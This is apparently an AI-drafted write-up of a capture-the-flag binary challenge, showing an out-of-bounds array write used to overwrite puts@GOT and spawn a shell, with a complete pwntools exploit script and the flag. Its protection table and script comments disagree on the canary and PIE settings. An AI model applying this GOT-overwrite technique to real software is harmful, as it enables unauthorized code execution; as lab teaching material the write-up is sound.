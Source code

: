 # aMAZEing - Writeup

---

## Challenge Overview

**aMAZEing** is a binary maze game challenge where logic, memory, and vulnerability exploitation come together. The objective is to escape the maze — not through solving it, but by exploiting a flaw in its internal logic.

---

## Binary Details

```bash
$ file maze

```

![Alt text](img/1.png)

```bash
$ checksec maze
```

![Alt text](img/2.png)

### Security Summary

| Protection   | Status  |
| ------------ | ------- |
| RELRO        | Partial |
| Stack Canary | Yes     |
| NX           | Enabled |
| PIE          | Enabled |

---

## Static Analysis (IDA Pro)

Opening the binary in IDA Pro reveals the vulnerable logic in the main game loop.

### Vulnerable Code Fragment

The key logic is found in the part of the code that handles user input for maze configuration:

![Alt text](img/3.png)

### Key Observations

- The array `maze_escape[]` is written to using `[rsi + rax*4]` where `rsi` holds the base address and `rax` is derived from user input.
- There is **no bounds check** on `rax`. A large value will index into memory beyond the buffer and into writable sections such as the GOT.
- This confirms the **out-of-bounds write** that enables us to overwrite a GOT entry.

## Vulnerability Analysis

The program allows the player to configure "coordinates" and "slot values" in the maze. Internally, the game logic uses a buffer called `maze_escape[]`, and inputs are used directly as indices without bounds checks.

```c
scanf("%d", &coordinates);
scanf("%d", &slot);
maze_escape[coordinates] = slot;
```

### Vulnerability: Out-of-Bounds Write

- There is no bounds check on the `coordinates` variable.
- This allows writing to memory beyond the intended array `maze_escape[]`.
- Specifically, it enables overwriting entries in the Global Offset Table (GOT), such as `puts@GOT`.
- By overwriting a GOT entry with the address of the `escape()` function, control flow is redirected to spawn a shell.

---

## Exploitation Plan

1. **Leak the PIE base address**: At startup, the binary prints the runtime address of `main()`, which can be used to calculate the full base address.
2. **Calculate offset to GOT**: Determine how far `puts@GOT` is from `maze_escape[]` in memory.
3. **Overwrite GOT entry**: Use the out-of-bounds vulnerability to overwrite the `puts@GOT` entry with the address of the `escape()` function.
4. **Trigger puts()**: The program will now call `escape()` instead, which executes `system("/bin/sh")`.

---

## Exploit Script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'maze')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

#io = start()
io = remote('localhost',1337)

# --------[BINARY BASE ADDRESS]---------

io.recvuntil(b'The maze begins at this location, your journey starts here @')
leak = io.recvline().strip()
main_addr = int(leak,16)

exe.address = main_addr - exe.sym['main']



offset=(exe.got['puts']-exe.sym['maze_escape'])/4
io.recvuntil(b'Configure coordinates (0 >=) : ')
io.sendline(b'%i' %offset)
io.recvuntil(b'Set slot value (10 >=) : ')
io.sendline(b"%i" %exe.sym['escape'])

io.interactive()

```

---

## Result

The overwritten GOT entry causes the program to call `escape()`, which executes:

```c
system("/bin/sh");
```

A shell is spawned, granting access to the system and allowing flag retrieval.

---

## Flag

```
flag{l0st_1n_th3_4m4z3_w1th_r34l_sh3ll}
```

---

Let me know if you'd like to generate a Markdown version, convert it to PDF, or integrate it into a CTF platform format.

